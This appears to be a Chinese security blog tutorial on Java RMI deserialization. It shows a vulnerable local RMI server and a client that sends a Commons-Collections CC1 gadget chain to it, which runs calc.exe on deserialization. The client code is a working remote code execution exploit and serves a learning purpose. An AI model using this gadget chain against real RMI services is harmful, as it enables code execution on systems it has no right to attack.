

之前已经接触过RMI了,不过之前主要是了解的远程方法调用,对RMI的反序列化并不是很清楚

其实RMI反序列化和普通的反序列化相差不大,只是因为RMI在通信的时候是以序列化流传输的

既然有序列化那就有反序列化,RMI的反序列化和普通的反序列化就多了一个RMI通信的过程

**RMI反序列化的特点**

- RMI提供的数据有Object类型（因为攻击payload就是Object类型）
- 能够进行RMI通信
- 目标服务器引用了第三方存在反序列化漏洞的jar包

直接用一个CC1的例子来说明RMI反序列化吧

先起一个RMI服务（受害者）

```
package RMIunser;

import java.rmi.Naming;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.UnicastRemoteObject;

public class Server {

    public interface User extends Remote {
        public String name(String name) throws RemoteException;
        public void say(String say) throws RemoteException;
        public void Example(Object work) throws RemoteException;
    }

    public static class UserImpl extends UnicastRemoteObject implements User{

        protected UserImpl() throws RemoteException{
            super();
        }
        public String name(String name) throws RemoteException{
            return name;
        }
        public void say(String say) throws  RemoteException{
            System.out.println("you speak" + say);
        }
        public void Example(Object example) throws  RemoteException{
            System.out.println("This is " + example);
        }
    }

    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        UserImpl user = new UserImpl();
        LocateRegistry.createRegistry(1099);
        Naming.bind(url,user);
        System.out.println("RMI server is running");
    }
}
```

还是和RMI的定义一样,先定义接口然后再定义实现类,并且都要抛出相应的异常,最后绑定RMI服务端口

因为是对CC1进行复现,所以要选择8u71一下的jdk版本

接下来就是客户端也就是攻击者

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import RMIunser.Server.User;

public class Client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        User userClient = (User)Naming.lookup(url);

        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.Example(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "key");
        Map outmap = TransformedMap.decorate(innermap, null, chain);

        Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = T0WN.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, outmap);

        return instance;
    }
}
```

与服务端的RMI服务进行通信,调用其中带Object数据类型参数的方法,然后在反序列化的时候就会执行payload




其实RMI反序列化就是将RMI服务器当成一个readObject的点就可以了

具体的RMI通信过程可以通过wireshark抓取流量包来观察,可以在这篇先知上看到,P牛的java漫谈也有


参考链接

https://xz.aliyun.com/t/6660#toc-6

http://1.15.187.227/index.php/archives/497/
